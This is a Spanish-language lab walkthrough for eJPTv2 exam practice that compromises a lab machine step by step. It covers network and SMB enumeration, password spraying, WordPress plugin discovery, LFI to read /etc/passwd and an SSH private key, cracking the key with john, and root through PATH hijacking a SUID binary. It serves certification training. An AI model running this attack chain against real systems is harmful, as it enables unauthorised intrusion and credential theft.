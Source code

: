 # Laboratorio de preparación eJPTv2 | Simulación de examen

{% embed url="https://youtu.be/v20IsEd5nUU?si=5v8wrsLm_pxpzXXj" %}

## Enumeración de red - Descubrimientos de hosts y escaneo de puertos

```bash
ip a
nmap -sn 10.0.2.0/24 #manda paquetes ICMP a ese segmento de red
sudo nmap -sS --min-rate 5000 -p- --open 10.0.2.43,45,46,53,55 -oN tcp_scan.txt
grep '^[0-9]' tcp_scan.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','
nmap --open -p135,139,22,25,45,445,49665,49670,80 -sC -sV 10.0.2.43,45,46,53,55 -Pn -On full_scan.txt
```

## Primera Máquina

Servicios vulnerables: 22,25,80,139 y 445.

Nos creamos una carpeta para la primera máquina.

```bash
mkdir 10.0.2.43
```

Entramos por el puerto 80 y vemos una imagen de un evento griego. Tampoco en el código fuente hay cosas relevantes. Hacemos por lo tanto hacemos fuerza bruta a directorios.

```
dirb http://10.0.2.43:80 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Por aquí no va el ataque. Ahora nos fijaremos en SMB.

```bash
smbclient -L 10.0.2.43 -N 
```

Como no vemos que permisos tenemos sobre esos recursos usamos este comando.

```bash
smbmap -H 10.0.2.43
crackmepexec smb 10.0.2.43 -u '' -p '' --shares
enum4linux 10.0.2.43
```

Realizamos conexón con el recurso anonymous.

```bash
smbclient //10.0.2.43/anonymous -N
```

Nos descargamos el archivo y nos creamos un archivo con las contraseñas mencionadas. También podemos listar usuarios.

```bash
crackmapexec smb 10.0.2.43 -u '' -p '' --users
```

Con las credenciales.

```bash
crackmapexec smb 10.0.2.43 -u helios -p passwords.txt 
```

Esas contraseñas no son válidas para el usuario helios.

```bash
smbmap -H 10.0.2.43 -u helios -p qwerty
```

Tenemos permisos a recursos que no teníamos antes.

```bash
smbclient //10.0.2.43/helios -U helios
```

Nos descargamos los archivos. Vemos que hemos encontrado una ruta oculta. Parece un WordPress por lo que añadimos el dominio al /etc/hosts.

```bash
10.0.2.43    symfonos.local
https://symfonos.local/h3l105/wp-admin
```

> Nota: también nos puede caer Drupal /drupscan) y Joomla (joomscan).

Enumeramos para el WordPress.

```bash
wpscan --url http://symfonos.local/h3l105 #nos enumera todo hasta plugins
```

Usamos searchsploit para ver los exploits de los plugins.

```bash
searchsploit wordpress mail masta
searchsploit site editor
```

Nos sale 3 exploits de masta.

```
searchsploit -m 40290 # nos lo traemos en la atacante
```

Vemos el contenido y encontramos una ruta por la que entramos en ella y descubrimos el /etc/passwd. Vamos a convertir LFI a RCE. Atentamos a la id\_rsa de los usuarios del sistema con la ruta anterior.

```bash
=/home/helios/.ssh/id_rsa
```

Tenemos la id\_rsa pero encriptada.

```bash
ssh helios@10.0.2.43
```

Se necesita la clave pública para iniciar sesión. Copiamos la id\_rsa el contenido y proporcionamos eso al inicio de sesión.

<pre><code>chmod 600 id_rsa
<strong>ssh -i id_rsa helios@10.0.2.43
</strong></code></pre>

Extraemos los hashes de la id\_rsa.

```bash
ssh2john id_rsa > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Encontramos la passphrase.

```bash
ssh -i id_rsa helios@10.0.2.43 #poner xerox
```

Estamos dentro de la máquina víctima. Revisamos.

```bash
sudo -l
cat /etc/crontab
find / -perm -4000 -ls 2>/dev/null
```

Hay uno que nos llama la atención.

```bash
/opt/statuscheck
```

Con la herramienta strings podemos ver caracteres legibles.

```
strings /opt/statuscheck
```

Vemos que hay un curl y lo está buscando en el PATH del sistema. Vamos a hacer un PATH Hijacking.

```bash
export PATH=/tmp:$PATH #ruta principal cambiada
cd /tmp
echo '/bin/bash -p' > curl
chmod +x curl
./curl #inicia una sesión anidada
/opt/statuscheck #en el momento que encuentre curl obtendremos una bash
```
